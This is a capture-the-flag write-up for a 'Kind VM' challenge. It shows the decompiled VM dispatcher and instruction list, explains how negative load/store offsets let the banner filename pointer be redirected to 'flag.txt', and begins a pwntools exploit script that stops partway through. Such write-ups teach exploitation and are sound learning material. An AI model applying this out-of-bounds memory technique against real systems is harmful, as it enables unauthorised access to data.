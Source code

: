 ## Kind VM

The program implements a VM. It first stores out input name to a malloc, than execute at most 400 bytes instructions:
```cpp
// Code Segement 1
func_table_bss[0] = (int)insn_nop;
func_table_1 = (int)insn_load;
func_table_2 = (int)insn_store;
func_table_3 = (int)insn_mov;
func_table_4 = (int)insn_add;
func_table_5 = (int)insn_sub;
func_table_6 = (int)insn_halt;
func_table_7 = (int)insn_in;
func_table_8 = (int)insn_out;
func_table_9 = (int)insn_hint;

// Code Segement 2
int exec_insn()
{
  unsigned __int8 v1; // [esp+Fh] [ebp-9h]

  v1 = load_insn_uint8_t();
  if ( v1 > 9u )
    kindvm_abort();
  return ((int (*)(void))func_table_bss[v1])();
}
```

It has two spaces to execute, one is `reg`, which stimulates registers. Another is `mem` identical to **stack**. Both of them are in heap along with `func_greeting`, `func_farewell` and `banner.txt`. The function table, however, is in *BSS* area.

Let's talk about instructions first:
- `insn_nop` prints `NOP` to screen. 
- `insn_load` loads a value from *mem* to *reg*, negative number can be specified here.
- `insn_store` stores a value from *reg* to *reg*, negative number can be specified here.
- `insn_mov` moves the value from one *reg* to another *reg*
- `insn_add` adds values from two *reg*, *hint3.txt* will be printed when u gets a negative result (integer overflow).
- `insn_sub` subs values from two *reg*.
- `insn_halt` ends the program
- `insn_in` stores value to `reg`.
- `insn_out` prints the value from `reg`
- `insn_hint` prints hint2.txt

There is another interesting thing, the function will execute `func_greeting` and `func_farewell`. Both of them print `banner.txt`. If we can modify the `banner.txt` to `flag.txt`, we can successfully print flag.

Now, the flag comes handy. We can use negative offset to load the address of `kc` because `*(_DWORD *)(::kc + 12) = "banner.txt";`. Then, adjust the offset from `banner.txt` to our input name (here we input `flag.txt`). And finally use `halt` to exit the program and print flag:
```python
from pwn import *
context.log_level = 'DEBUG'
p = process("./kindvm")

def _nop():
    return '\x00'

def _load(reg, val):
    return '\x01' + p8(reg) + p16(val)

def _store(val, reg):
```